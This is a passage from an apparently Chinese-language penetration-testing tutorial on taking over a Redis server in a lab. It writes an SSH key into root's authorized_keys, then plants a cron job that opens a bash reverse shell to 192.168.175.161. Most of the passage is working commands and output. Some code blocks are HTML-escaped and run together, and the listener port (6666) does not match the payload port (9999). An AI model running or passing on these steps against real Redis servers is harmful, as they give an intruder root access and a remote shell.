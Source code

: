进行写入

```php
cat key.txt | ./redis-cli -h 192.168.175.162 -a a001 -x set xxxx    
```

进行查看 是成功写入的

切换目录到靶机的`/root/.ssh`目录下

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5c2ae249e63d0e0c87fef9293b135a6dfc69a05f.png)

设置文件名 并进行导出 最后记得保存

```c
config set dbfilename authorized_keys
```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-feb013b33cbbf72e3848929e83426dcc922587a8.png)

进行登录

```c
ssh -i id_rsa root@192.168.175.162
```

可以看到ssh成功登录

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f3422cc8d7bd77ef169fdbe826bdb05e7e4c9f73.png)

0x05 利用计划任务反弹shell
------------------

- nc开启监听

```c
nc -lvnp 6666
```

- 写入一句话

```c
192.168.175.162:6379&amp;gt; set  xx   &amp;quot;\n* * * * * bash -i &amp;gt;&amp;amp; /dev/tcp/192.168.175.161/9999 0&amp;gt;&amp;amp;1\n&amp;quot;         #星号代表计划任务执行的时间OK192.168.175.162:6379&amp;gt; config set dir /var/spool/cron/   #设置导出的路径OK192.168.175.162:6379&amp;gt; config set dbfilename root  #设置导出的文件名OK192.168.175.162:6379&amp;gt; save   #保存OK192.168.175.162:6379&amp;gt; 
```

或者这样也是可以的

```c
┌──(root/kali)-[~/桌面/redis-3.2.0/src]└─# echo -e &amp;quot;\n\n*/1 * * * * /bin/bash -i &amp;gt;&amp;amp; /dev/tcp/192.168.175.161/9999 0&amp;gt;&amp;amp;1\n\n&amp;quot;|./redis-cli -h 192.168.175.162 -a a001 -x set 1./redis-cli -h 192.168.175.162 -a a001 config set dir /var/spool/cron/./redis-cli -h 192.168.175.162 -a a001 config set dbfilename root./redis-cli -h 192.168.175.162 -a a001 saveOKOKOKOK
```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a7589ea1e0d4b7602e10656fcc9d468a1ba50af9.png)
